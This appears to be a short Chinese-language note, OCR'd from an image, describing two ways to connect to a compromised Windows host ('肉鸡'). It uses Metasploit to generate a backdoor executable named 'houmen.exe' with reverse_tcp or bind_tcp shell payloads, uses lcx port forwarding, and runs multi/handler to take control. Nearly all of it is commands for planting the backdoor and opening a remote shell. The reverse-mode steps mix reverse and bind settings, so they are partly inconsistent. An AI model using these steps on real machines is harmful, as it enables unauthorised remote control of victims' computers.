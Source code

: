 俩种连接方式
=========

1. Reverse 

> 用msf生成一个reverse类型的exe,如下设置:

    ```shell
    payload: windows/shell/reverse_tcp
    rhost: 192.168.130.111[肉鸡本身的内网ip]
    lport: 1234
    ```
假设生成houmen.exe

>将lcx和上面生成的houmen.exe上传到肉鸡192.168.130.111,运行:

    ```shell
    lcx -listen 300 1234
    houmen.exe
    ```
> 在控制端msf中运行:

    ```shell
    use multi/handler
    set payload windows/shell/bind_tcp
    set rhost 192.168.130.111
    set lport 300
    run -j
    ```

2. Bind

> 用msf生成一个bind类型的exe,如下设置:

```shell
payload: windows/shell/bind_tcp
lport: 1111
```

假设生成houmen.exe

> 将houmen.exe上传到肉鸡192.168.130.111,运行: houmen.exe

> 在控制端msf中运行:

```shell
use exploit/multi/handler
set payload windows/shell/bind_tcp
set rhost 192.168.130.111
set lport 1111
run -j
```

上面3个步骤完成后即可成功连接肉鸡